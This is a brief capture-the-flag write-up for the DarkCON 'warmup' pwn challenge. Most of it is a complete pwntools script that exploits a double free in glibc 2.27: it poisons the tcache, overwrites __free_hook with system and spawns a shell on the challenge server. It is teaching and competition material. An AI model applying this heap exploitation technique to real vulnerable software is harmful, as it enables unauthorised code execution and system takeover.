


## DarkCON CTF: warmup [pwn]
##### *tl;dr: libc 2.27 double free to tcache poison*


#### I'll do a more detailed writeup later. After reversing, we find out that we don't have uaf/heap overflow but we can double free without restrictions. We leverage this double free to perform a tcache poison to get a chunk on top of `__free_hook` and free a chunk with `'/bin/sh'` as it's first 8 bytes to get a shell.

```python
from pwn import *

#: CONNECT TO CHALLENGE SERVERS
binary = ELF('./a.out', checksec = False)
libc = ELF('./libc.so.6', checksec = False)

#p = process('./a.out', env = {'LD_PRELOAD' : libc.path})
p = remote("65.1.92.179", 49155)
strcpy_leak = int(p.recvuntil('\n').split('gift: ')[1].strip(), 16)
libc_base = strcpy_leak - 0xb65b0

log.info(hex(strcpy_leak))
log.info(hex(libc_base))
print(p.recvuntil('exit\n'))

#: GDB SETTINGS
breakpoints = ['break *0x400b17', 'break *0x400ba7']
#gdb.attach(p, gdbscript = '\n'.join(breakpoints))

#: EXPLOIT INTERACTION STUFF
def create_chunk(index, size, data):

	p.sendline('1')
	p.sendline(str(index))
	p.sendline(str(size))
	p.sendline(data)
	print(p.recvuntil('exit\n'))

def delete_chunk(index):

	p.sendline('2')
	p.sendline(str(index))
	print(p.recvuntil('exit\n'))

#: PWN THY VULNS
create_chunk(0, 0x10, 'A' * (0x10 - 1))
create_chunk(1, 0x10, 'B' * (0x10 - 1))

delete_chunk(0)
delete_chunk(1)
delete_chunk(0)

create_chunk(0, 0x10, p64(libc_base + libc.symbols['__free_hook']))
create_chunk(1, 0x10, '/bin/sh\x00')
create_chunk(2, 0x10, '/bin/sh\x00')
create_chunk(3, 0x10, p64(libc_base + libc.symbols['system']))
p.interactive()
```
